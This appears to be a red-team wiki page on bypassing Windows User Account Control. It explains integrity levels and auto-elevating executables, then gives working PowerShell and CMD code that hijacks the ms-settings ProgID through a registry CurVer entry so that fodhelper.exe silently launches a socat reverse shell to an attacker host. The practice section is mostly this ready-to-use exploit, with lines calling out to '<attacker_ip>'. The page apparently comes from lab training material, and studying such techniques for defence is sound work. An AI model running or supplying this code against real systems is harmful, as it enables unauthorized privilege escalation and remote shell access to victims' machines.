 # UAC Bypass

## Theory

The User Account Control [UAC](https://learn.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works). Its a Windows security feature that forces any new process to run in the security context of a non-privileged account by default.. 

### Integrity Levels

UAC is a **Mandatory Integrity Control** (MIC), which is a mechanism that allows differentiating users, processes and resources by assigning an Integrity Level (IL) to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs. MIC takes precedence over regular Windows DACLs  
The following 4 ILs are used by Windows, ordered from lowest to highest:  

| Integrity Level         | Use                                                 |
| ----------------------- | --------------------------------------------------- |
| Low                     | Very limited permissions                            |
| Medium                  | users and Administrators' filtered tokens.          |
| High                    | Administrators' elevated tokens if UAC is enabled.  |
| System                  | Reserved for system use.                            |

### AutoElevate 
some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows. For an application, some requirements need to be met to auto-elevate:  
    - The executable must be signed by the Windows Publisher  
    - The executable must be contained in a trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/  
    - Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use sigcheck.  

Indeed we can leverage this executables to bypass UAC. Let's dive in:  
{% hint style="danger" %}
if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate.
{% endhint %}

## Practice

 Microsoft doesn't consider UAC a security boundary but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

### Using ProgID to bypass UAC
we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.  
{% tabs %}
{% tab title="Powershell" %}
The exploit code is proposed by [V3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
```bash
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```
{% hint style="danger" %}
Detected by Windowds Defender
{% endhint %}
{% endtab %}

{% tab title="CMD" %}
V3ded exploit converted in CMD by TryHackMe
```bash
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```  
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/bypassinguac" %}
